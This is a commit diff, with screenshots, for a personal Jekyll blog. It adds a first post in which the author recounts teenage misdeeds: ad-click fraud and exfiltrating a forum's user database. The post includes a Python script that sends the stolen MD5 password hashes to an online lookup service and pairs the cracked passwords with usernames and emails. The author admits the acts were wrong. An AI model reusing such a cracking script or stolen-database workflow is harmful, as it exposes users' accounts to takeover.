

Before and after one commit to PabloReyes/PabloReyes.github.io, a Jekyll site: the page built from index.html, in a window 1280 px wide. Shown: the top 1920 px of the page at 81% size, without its empty margins (128-1036 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some web fonts are replaced; the list of posts is cut into pages by our own code; before the commit the page ends 900 px from its top, so only the background shows below that; some of the changed text lies outside the part shown.

Commit message:
First post. Still testing

```diff
--- a/_layouts/default.html
+++ b/_layouts/default.html
@@ -22,7 +22,7 @@
 
         <aside id="sidebar">
             <section id="sidebar-picture">
-
+                <img src="{{ site.url }}/images/me.jpg" />
             </section>
         </aside>
 
--- a/_posts/2014-09-17-just-trying-out-github-pages-and-jekyll.textile
+++ b/_posts/2014-09-17-just-trying-out-github-pages-and-jekyll.textile
@@ -1,8 +1,110 @@
 ---
 layout: post
-title: Test with Github Pages and Jekyll
+title: A curious guy getting hands dirty
+published: true
+date: 2012-10-05
 ---
 
-Lorem ipsum dolor sit amet, consectetur adipiscing elit, sed do eiusmod tempor incididunt ut labore et dolore magna aliqua. Ut enim ad minim veniam, quis nostrud exercitation ullamco laboris nisi ut aliquip ex ea commodo consequat. Duis aute irure dolor in reprehenderit in voluptate velit esse cillum dolore eu fugiat nulla pariatur. Excepteur sint occaecat cupidatat non proident, sunt in culpa qui officia deserunt mollit anim id est laborum.
+If I’m curious now, I was even more with 14 or 15 years old. It was the time when I got bored of my shitty C book and started learning Python with online tutorials. I spent so much time on IRC also, mostly in programming channels (although I almost only talked in those dedicated to Age Of Empires, yeah!). I met some people doing much more funny things that what I was doing. A group of friends created a script to auto-click on adsense banners. The group was super private, but I was invited. All of us had a personal blog, so we used the script to click once on each adsense banner every day, so at least we got 8 or 9 clicks a day. Not much, but It helped me buying a better computer (Athlon 3400+, from a P3 866Mhz) by the end of that year (2004 I think).
 
-Lorem ipsum dolor sit amet, consectetur adipiscing elit, sed do eiusmod tempor incididunt ut labore et dolore magna aliqua. Ut enim ad minim veniam, quis nostrud exercitation ullamco laboris nisi ut aliquip ex ea commodo consequat. Duis aute irure dolor in reprehenderit in voluptate velit esse cillum dolore eu fugiat nulla pariatur. Excepteur sint occaecat cupidatat non proident, sunt in culpa qui officia deserunt mollit anim id est laborum.
+Ah, they also got access to a private site from Motorola where we could make free mobile calls, but it only lasted a couple of weeks until they noticed. I remember calling a irc-friend to Puerto Rico and talking with his confused mother…
+
+In one of those channels I met a guy running a big website that it’s still running. In it’s first months, the site had more than 20.000 registered users, and don’t ask me why, he thought it would be great that I helped him managing the forums, so he gave me admin privileges. I went directly to the backups panel, looking for the users database. In less than 2 minutes a ~20Mb file was being downloaded with the first real SQL code I had saw.
+
+When I tried to open it with gedit, my computer froze. I got more luck with vim, but I hated those shell-based text editors. The file was full of entries like this (real copy-paste from original):
+
+{% highlight sql %}
+INSERT INTO phpbb_users (user_id, user_active, username, user_password,
+user_session_time, user_session_page, user_lastvisit, user_regdate,
+user_level, user_posts, user_timezone, user_style, user_lang,
+user_dateformat, user_new_privmsg, user_unread_privmsg,
+user_last_privmsg, user_login_tries, user_last_login_try, user_emailtime,
+user_viewemail, user_attachsig, user_allowhtml, user_allowbbcode,
+user_allowsmile, user_allowavatar, user_allow_pm, user_allow_viewonline,
+user_notify, user_notify_pm, user_popup_pm, user_rank, user_avatar,
+user_avatar_type, user_email, user_icq, user_website, user_from, user_sig,
+user_sig_bbcode_uid, user_aim, user_yim, user_msnm, user_occ,
+user_interests, user_actkey, user_newpasswd) VALUES('4', '1', '[USERNAME]',
+'87f6f9d078c3bc5db5578f3b4add9470', '2147483647', '0', '2147483647',
+'2147483647', '0', '0', '0.00', '1', 'english', 'D M d, Y g:i a', '0',
+'0', '0', '0', '0', NULL, '0', '1', '0', '1', '1', '1', '1', '1', '0',
+'1', '1', '0', '', '0', '[USER_MAIL_ADDRESS]@hotmail.com', '', '', '', '', '', '',
+'', '', '', '', '', NULL);
+{% endhighlight %}
+
+Obviously I have replaced the username and mail address. There were more than 20.000 entries like that in that file. Passwords were encrypted with MD5, but I knew some online tools like gdataonline (now offline) that could help me finding out the original password. This kind of sites have a huge dictionary of words and common passwords with their corresponding hashes. You search the hash, and get the original string back.
+
+The best thing about gdataonline is that it accepted data via GET and gave the output via XML… That was just perfect for what I had in mind. What if I made a Python script to send the password hashes to gdataonline, and store the successful passwords with their usernames and mail addresses? Since many users use the same password for everything, I would have a really dangerous material. And that was exciting.
+
+First, I made a simple script to split the huge file in 100 parts, so each file would have 200 entries. This had to purpouses:
+
+* The idea of reading and parsing a 20Mb file in python didn’t attract me
+* I didn't want to send 20.000 request to gdataonline
+
+I could have got all the (username, mail, hash) tuples with a simple SELECT in SQL, and parse the received XML with pyXML. But I didn’t even consider it, I liked it the hard way, the only way I knew. So after some hours of coding, I got this:
+
+{% highlight python %}
+#!/usr/bin/env python
+ # -*- coding: iso-8859-15 -*-
+ import re
+ import urllib
+ import os
+
+ def getPasswords():
+   successful_passwords = 0
+   num = 1
+
+   file = r"inputFile001" #Change this for every file
+   text = open(file, "r")
+   content = text.read()
+   text.close()
+   user = re.findall("VALUES.*?;", content)
+
+   output_file = r"outputFile001" #Change this for every file
+   foo = open(output_file, "w")
+
+   spaces = " "*32
+   foo.write("Nickname" + spaces + "Password" + spaces + "Mail" + "\r")
+   foo.write('-' * 90 + "\r")
+
+   for i in user:
+     nickname = i.split()[2].strip(",").strip("'")
+     mail = i.split()[39].strip(",").strip("'")
+
+     f = urllib.urlopen("http://gdataonline.com/qkhash.php?mode=xml&amp;hash=%s" % i.split()[3].strip(",").strip("'"))
+     xml = f.read()
+     passwords = re.findall(".*?", xml)
+
+     if passwords: # If we get the original
+    password = passwords[0].split("").pop().split("")[0]
+         successful_passwords +=1
+
+    foo.write(nickname.ljust(40) + password.ljust(40) + mail.ljust(22))
+    foo.write("\r")
+
+     os.system("clear")
+     print "Total: %i" % len(user)
+     print "Analized: %i" % num
+     print "Found: %i" % successful_passwords
+
+     num += 1
+
+   foo.close()
+   print "%i passwords have been found" % successful_passwords
+
+ if __name__ == '__main__':
+   getPasswords()
+{% endhighlight %}
+
+Tachan! Probably not the most beautiful, organized, well documented, optimized or fast code you have seen, but you can imagine what I felt when I opened my just created file (obviously I changed data)…
+
+|_.Nickname|_.Password|_.Mail|
+|john|mylove_1234|johny_the_cool@hotmail.com|
+|mike|kansas70000|the_big_boy@yahoo.com|
+|admin|lalalalaImDaAdmin|admin@thissite.com|
+|....|....|....|
+
+
+I got  ~30% of passwords revealed, 60 passwords per file, 6000 passwords in total.
+
+This was the time I realised how funny and useful programming could be. I didn’t have any other intention that doing something to get a real result, no more ordering lists or math problems. I felt important, I knew that what I had done wasn’t right, and probably was illegal, but it gave me the satisfaction I needed to keep learning, with more enthusiasm than ever.
--- a/stylesheets/stylesheet.css
+++ b/stylesheets/stylesheet.css
@@ -94,13 +94,16 @@ header h2 {
 #sidebar{
     width: 160px;
     float: left;
+    padding: 5px;
+}
+
+#sidebar section, #sidebar img{
+    max-width: 100%;
 }
 
 #main{
     padding-left: 25px;
 }
-
-
 
 .content {
   width: 620px;
@@ -113,10 +116,14 @@ header h2 {
     padding: 0px;
 }
 
-#sidebar-picture{
-    height: 160px;
-    border: 1px solid #d5020f;
-    background-color: rgba(213, 2, 15, 0.78);
+.post table{
+    margin-bottom: 20px;
+    padding: 20px;
+    background-color: #fefefe;
+}
+
+.post table th{
+    font-weight: bold;
 }
 
 
@@ -290,6 +297,7 @@ table {
 
 th {
   font-weight: 500;
+    border: 1px solid #ebebeb;
 }
 
 td {
```
Also changed, not shown: _config.yml (line endings or trailing spaces), images/me.jpg (added), 2 other files.
